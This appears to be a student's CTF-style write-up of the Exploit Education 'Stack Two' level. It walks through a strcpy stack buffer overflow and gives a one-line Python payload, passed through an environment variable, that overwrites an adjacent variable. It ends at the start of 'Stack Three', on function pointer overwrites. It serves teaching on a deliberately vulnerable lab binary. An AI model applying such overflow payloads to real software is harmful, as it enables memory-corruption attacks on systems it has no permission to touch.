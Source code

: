 ```C
  char *ptr;

  printf("%s\n", BANNER);

  ptr = getenv("ExploitEducation");
  if (ptr == NULL) {
    errx(1, "please set the ExploitEducation environment variable");
  }

  locals.changeme = 0;
  strcpy(locals.buffer, ptr);

  if (locals.changeme == 0x0d0a090a) {
    puts("Well done, you have successfully set changeme to the correct value");
  } else {
    printf("Almost! changeme is currently 0x%08x, we want 0x0d0a090a\n",
        locals.changeme);
  }

  exit(0);
}
```
This time, we need to overflow “buffer” with an `environment variable`. Let's search for `how to set environment variable in linux` and found it: 

<img width="595" alt="Screenshot 2024-07-10 at 5 24 24 PM" src="https://github.com/Anjalihere/CSOC_24/assets/146505430/7b9aeffc-d7f6-43ec-b8eb-f015e7100d26">

The code initializes a pointer `ptr` to a string stored in the environment variable `ExploitEducation`. This string is then copied into the `buffer` variable using the `strcpy()` function without any bounds checking. Subsequently, the value of the `changeme` variable is evaluated to determine if it equals `0x0d0a090a`.

So, we’ll fill the buffer with 64 characters and then append specific bytes so that the changeme variable takes the value 0x0d0a090a and pass the string to the program via the ExploitEducation environment variable.

```python
export ExploitEducation=$(python -c 'print "A"*64 + "\x0a\x09\x0a\x0d"') && ./stack-two
```

<img width="1182" alt="Screenshot 2024-07-10 at 6 44 59 PM" src="https://github.com/Anjalihere/CSOC_24/assets/146505430/41c58139-86e3-4fb7-9083-faf1f6f7da44">

Yahoo! it changed :)

# Stack-Three
> Stack Three looks at overwriting function pointers stored on the stack.

> Hints
>
> * You can use gdb and objdump to determine where the complete_level() function is in memory.

### Source code
